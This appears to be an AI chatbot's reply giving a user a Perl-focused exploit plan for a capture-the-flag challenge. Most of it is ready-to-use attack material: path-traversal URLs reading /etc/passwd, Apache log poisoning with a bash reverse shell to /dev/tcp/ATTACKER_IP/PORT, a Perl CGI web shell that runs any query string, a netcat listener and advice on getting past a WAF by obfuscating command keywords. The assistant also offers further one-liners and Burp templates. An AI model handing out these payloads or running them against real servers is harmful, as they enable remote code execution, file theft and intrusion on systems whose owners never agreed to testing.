 You're absolutely right to ask that — if the CTF environment is built using **vulnerable Perl modules**, then PHP-specific payloads (like `php://filter` or `phpinfo()` tricks) are irrelevant and will not work.

Let me now give you a **refined, 100% Perl-focused exploit strategy** for both **LFI** and **File Upload RCE** in the given context. Since it's a CTF and you're told the system has:

- LFI
- File Upload RCE
- Web Application Firewall (WAF)
- Flag ID: `20c08b01-b30a-4580-95ce-12506c1283ad`
- Flag format: `P3RL_B3AST`

---

## 🔥 Exploit Strategy Based on Perl Backend

---

### 🧨 1. **LFI Exploit (Perl-Focused)**

If you’ve identified an LFI like:

```
http://target.com/page.pl?file=../../../../etc/passwd
```

### ✅ Goal:

Use LFI to:

- Read system files (like `/etc/passwd`)
- Look for logs or temp files you can include
- Extract uploaded shell (if File Upload is possible)

---

### 🔎 Perl LFI - Try Common Paths:

```bash
/etc/passwd
/proc/self/environ
/proc/version
/var/log/apache2/access.log
/var/log/httpd/access_log
/tmp/filename
```

> Use LFI to include log files where you **inject Perl shell code** via User-Agent or other headers.

---

### 👾 Perl Reverse Shell Injection via Apache Logs (if accessible)

**Step 1: Inject Perl code in headers** Use Burp Repeater to send:

```
User-Agent: PerlShell<?system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");>
```

**Step 2: LFI load the log file**

```bash
http://target.com/page.pl?file=/var/log/apache2/access.log
```

And catch the reverse shell using:

```bash
nc -lvnp PORT
```

---

### 🔥 2. **File Upload → RCE (Perl-focused)**

If file upload is possible and **Perl scripts are executed**, try uploading `.pl` files or `.cgi`.

### 💣 Example Perl Web Shell:

Upload file named `shell.pl` or `shell.cgi`:

```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
print "<pre>";
my $cmd = $ENV{'QUERY_STRING'};
system($cmd);
print "</pre>";
```

Then access it:

```
http://target.com/uploads/shell.pl?ls+-la+/var/www
```

If `.pl` doesn't work, try `.cgi`.

---

### ⚙️ Post-Exploitation: Search for the Flag

Use this in your web shell:

```bash
find / -name "*20c08b01*" 2>/dev/null
```

Or:

```bash
grep -r "P3RL_B3AST" / 2>/dev/null
```

---

### 🧱 Bypass WAF

- URL encode payloads:
    
    ```
    ../../../../etc/passwd → ..%2F..%2F..%2F..%2Fetc%2Fpasswd
    ```
    
- Try Base64 encoding or double encoding
- Avoid known keywords (`eval`, `exec`, `system`) — encode/obfuscate them in Perl

---

### 🧪 Final Exploit Checklist for CTF:

✅ Check for LFI with traversal paths  
✅ Inject Perl shell via log poisoning  
✅ Use uploaded `.pl` or `.cgi` shells if upload is allowed  
✅ Use `find` or `grep` to locate flag  
✅ Ensure reverse shell works — Netcat ready  
✅ Take screenshots of each key step (LFI, shell access, flag found)

---

Let me know if you want a one-liner for reverse shell or ready Burp request templates.